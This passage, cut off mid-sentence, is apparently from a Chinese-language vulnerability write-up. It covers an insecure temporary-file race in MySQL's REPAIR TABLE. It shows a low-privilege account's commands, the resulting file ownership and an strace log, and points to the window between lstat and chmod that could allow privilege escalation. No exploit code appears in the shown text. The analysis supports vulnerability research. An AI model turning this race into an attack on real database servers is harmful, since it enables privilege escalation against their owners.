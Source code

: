 执行完成后，查看下目录权限，变为mysql

```
attacker@debian:~$ ls -l /tmp/disktable/
total 0
-rw-rw---- 1 mysql mysql 0 Oct 28 10:53 poctab1.MYD
```

低权限（SELECT/CREATE/INSERT权限）的MYSQL账户，在执行表修复过程中，执行了不安全的临时文件创建。

```
mysql&gt; REPAIR TABLE `poctab1`;
+----------------+--------+----------+----------+
| Table          | Op     | Msg_type | Msg_text |
+----------------+--------+----------+----------+
| testdb.poctab1 | repair | status   | OK       |
+----------------+--------+----------+----------+
```

通过查看系统调用，可以看到

```
[pid  1463] lstat("/tmp/disktable/poctab1.MYD", `{`st_mode=S_IFREG|0660, st_size=0, ...`}`) = 0
[pid  1463] open("/tmp/disktable/poctab1.MYD", O_RDWR) = 65
[pid  1463] access("./testdb/poctab1.TRG", F_OK) = -1 ENOENT (No such file or directory)
[pid  1463] lseek(65, 0, SEEK_CUR)      = 0
[pid  1463] lseek(65, 0, SEEK_END)      = 0
[pid  1463] mprotect(0x7f6a3804f000, 12288, PROT_READ|PROT_WRITE) = 0
[pid  1463] open("/tmp/disktable/poctab1.TMD", O_RDWR|O_CREAT|O_EXCL|O_TRUNC, 0660) = 66
[pid  1463] lseek(65, 0, SEEK_END)      = 0
[pid  1463] lseek(64, 0, SEEK_END)      = 1024
[pid  1463] close(65)                   = 0
[pid  1463] close(66)                   = 0
[pid  1463] lstat("/tmp", `{`st_mode=S_IFDIR|S_ISVTX|0777, st_size=4096, ...`}`) = 0
[pid  1463] lstat("/tmp/disktable", `{`st_mode=S_IFDIR|0777, st_size=4096, ...`}`) = 0
[pid  1463] lstat("/tmp/disktable/poctab1.MYD", `{`st_mode=S_IFREG|0660, st_size=0, ...`}`) = 0
[pid  1463] stat("/tmp/disktable/poctab1.MYD", `{`st_mode=S_IFREG|0660, st_size=0, ...`}`) = 0
[pid  1463] chmod("/tmp/disktable/poctab1.TMD", 0660) = 0
[pid  1463] chown("/tmp/disktable/poctab1.TMD", 110, 115) = 0
[pid  1463] unlink("/tmp/disktable/poctab1.MYD") = 0
[pid  1463] rename("/tmp/disktable/poctab1.TMD", "/tmp/disktable/poctab1.MYD") = 0
```

第一个系统调用是

```
[pid  1463] lstat("/tmp/disktable/poctab1.MYD", `{`st_mode=S_IFREG|0660, st_size=0, ...`}`) = 0
```

我们可以看到，在检验poctab1.MYD表文件权限的时候，也会复制在创建repaired表时的临时文件chmod()权限。因此在

```
[pid  1463] lstat("/tmp/disktable/poctab1.MYD", `{`st_mode=S_IFREG|0660, st_size=0, ...`}`) = 0
```

和

```
[pid  1463] chmod("/tmp/disktable/poctab1.TMD", 0660) = 0
```
